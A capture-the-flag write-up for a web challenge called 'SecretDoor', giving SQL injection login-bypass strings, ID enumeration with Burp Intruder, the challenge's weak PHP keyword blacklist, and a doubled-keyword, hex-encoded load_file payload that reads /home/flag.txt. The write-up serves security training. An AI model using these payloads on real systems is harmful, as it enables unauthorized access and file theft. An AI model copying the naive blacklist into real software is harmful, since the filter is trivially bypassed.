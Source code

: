 #SecretDoor

**Category:** Web
**Points:** 50

**Description:**

There's this crazy friend of mine that recently got into web designing using php and sql. he also created a page for a company. but he said that he can access to anyfile in anyplace whenever he wants, when he is logged in his account. can you find the backdoor in this page that can access to files in another directories. and I almost forgot, his name is 'john'. it's not it's login name, but sure you can find it. and remember your job is to read me the /home/flag.txt file!!!

##SecretDoor-Solution:

not ready yet.

**But if you're eager to know, here is a little hint:**

It is a combination of Blind/Union SQL Injection, Directory traversal vulnerability. First a sql-injection in first page (blind sqli).

```
username:	john")) or 1 limit 0,1 #
password:	<anything>
```

And we will be redirected to ```welcome.php```. As the description said, There is a secret door that is accessible only when we are login as john. so we should find a way to login as john.

In the login page there is no way to bypass it and then read values in database, because there is a length-filter on inputs of username/password. if lenght of username|password is more than 23, there will be no sql-fetch.
So we should find another way in. what if we work with ```limit 0,1```. It means, What if we find the id of john and set query on that id. for example if id of john is '7', we can use:

```
john")) or 1 limit 7,1 #
```

Finding ID for john
--

As the description said, his name is john. Also there is a url for seeing our profile: ```/profile.php?id=1```
Also we can see other users profile by changing the value of ```id```. But the problem is there are a lot of IDs on the database. so we should run a script to find the id of john.

But there is a better solution, fire up burp, send a request to ```/profile.php?id=1```, now capture it using burp, send it to intruder, set a variable on ```id```, now use a range of 1-2000, and at last grep on the name 'john'.
Now Start intruder.

by this method we can find the id of 'john', now it's time to login as john:

```
john")) or 1 limit 1298,1 #
```

Now if we look out on our profile we see that we are logged in as 'john'.

Finding a way to read ```/home/flag.txt```
--

Now that we are login as john, we can check for vulnerable fields and parameters. looks like search.php is vulnerable now (to sql injection).
Ok! so we can read ```/home/flag.txt``` using sql ```read_file``` command.

But this field has a simple waf filtering going on. here is a php-code for filtering section:

```php
<?php
	function blacklist($id)
	{
	$id= preg_replace('/or/i',"", $id);			
	$id= preg_replace('/and/i',"", $id);		
	$id= preg_replace('/load_file/i',"", $id);		
	$id= preg_replace('/union/i',"", $id);		
	$id= preg_replace('/order/i',"", $id);		
	$id= preg_replace('/select/i',"", $id);
	while (preg_match('/flag/', $id))
		{
			$id= preg_replace('/flag/',"", $id);
		}
	return $id;
	}
?>
```

We can bypass this filtering easily by just using method like this: ```oorr``` will become ```or``` and etc.
 
SO the query in search.php, should be like this:

```
-1%' oorr 1=2 uniunionon selselectect 1,(seselectlect loaload_filed_file('/home/flag.txt')),3#
```

But this doesn't work. We should find a way to read it. we can achieve this by hexing the '/home/flag.txt'. So the last query will look like this:

```
-1%' oorr 1=2 uniunionon selselectect 1,(seselectlect loaload_filed_file(0x2f686f6d652f666c61672e747874)),3#
```

And we will see the flag: **SQLI_is_M0R3_Than_AweS0M3**


